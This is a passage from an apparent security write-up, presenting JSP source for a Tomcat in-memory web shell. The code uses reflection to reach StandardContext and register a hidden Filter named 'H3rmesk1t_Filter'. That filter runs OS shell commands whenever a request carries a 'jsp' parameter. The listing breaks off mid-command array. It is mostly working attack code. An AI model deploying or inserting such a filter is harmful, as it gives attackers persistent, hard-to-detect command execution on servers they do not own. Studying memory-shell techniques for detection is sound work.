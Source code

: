 <div align=center><img src="./images/26.png"></div>

<div align=center><img src="./images/27.png"></div>

### JSP version

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.PushbackInputStream" %><%--
  Created by IntelliJ IDEA.
  User: h3rmesk1t
  Date: 2022/8/15
  Time: 1:32 pm
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<html>
  <head>
    <title>Filter</title>
  </head>
  <body>
    <%
      Field requestFiled = request.getClass().getDeclaredField("request");
      requestFiled.setAccessible(true);
      Request req = (Request) requestFiled.get(request);
      StandardContext standardContext = (StandardContext) req.getContext();

      Field configs = standardContext.getClass().getDeclaredField("filterConfigs");
      configs.setAccessible(true);
      Map filterConfigs = (Map) configs.get(standardContext);

      String FilterName = "H3rmesk1t_Filter";
      if (filterConfigs.get(FilterName) == null) {
        Filter filter = new Filter() {
          @Override
          public void init(FilterConfig filterConfig) {

          }

          @Override
          public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
            if (httpServletRequest.getParameter("jsp") != null) {
              boolean isLinux = true;
              String osType = System.getProperty("os.name");
              if (osType != null && osType.toLowerCase().contains("win")) {
                isLinux = false;
              }

              String[] cmds = isLinux ? new String[] {
                      "sh",
```